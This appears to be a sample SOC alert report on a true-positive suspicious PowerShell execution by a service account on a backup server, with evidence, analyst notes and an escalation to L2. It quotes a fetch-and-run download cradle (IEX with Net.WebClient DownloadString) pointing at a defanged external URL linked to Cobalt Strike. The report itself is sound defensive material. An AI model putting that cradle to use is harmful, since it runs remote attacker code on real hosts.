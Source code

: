 # ⚙️ Alert Report — Suspicious PowerShell Execution

**Date:** 2025-04-02  
**Analyst:** Daniel K.  
**Alert ID:** SOC-2025-00402  
**Verdict:** ✅ True Positive  
**Severity:** High  

---

## 🧩 Five Ws Analysis

**Who:**  
System account *svc-backup* on host *WIN-SRV02* executed PowerShell via Scheduled Task.

**What:**  
PowerShell invoked *IEX (New-Object Net.WebClient).DownloadString()*  
URL: *hxxp://198.51.100.24/update.ps1*

**When:**  
Detected at 03:17 CET during scheduled maintenance window.

**Where:**  
Host IP: 10.0.4.22, Server OU: BackupServers

**Why:**  
The script attempted outbound communication to an unapproved external IP.  
No hash match in internal whitelist. Domain newly registered.

---

## 🧪 Evidence Collected

| Source | Evidence |
|--------|-----------|
| Sysmon | Event ID 1 (Process Creation), Event ID 3 (Network Connection) |
| Defender | Alert: “Suspicious PowerShell Command Line” |
| URL Reputation | Malicious, linked to Cobalt Strike payloads |
| Network Logs | Outbound traffic on TCP/443, SNI mismatch |

---

## 🧠 Analyst Notes

Process terminated automatically by Defender.  
No persistence observed.  
Recommend full host scan and password reset for *svc-backup* account.

---

## 🚩 Escalation Decision

**Escalated to L2** —  
Further investigation required to verify if lateral movement or persistence mechanisms were established.
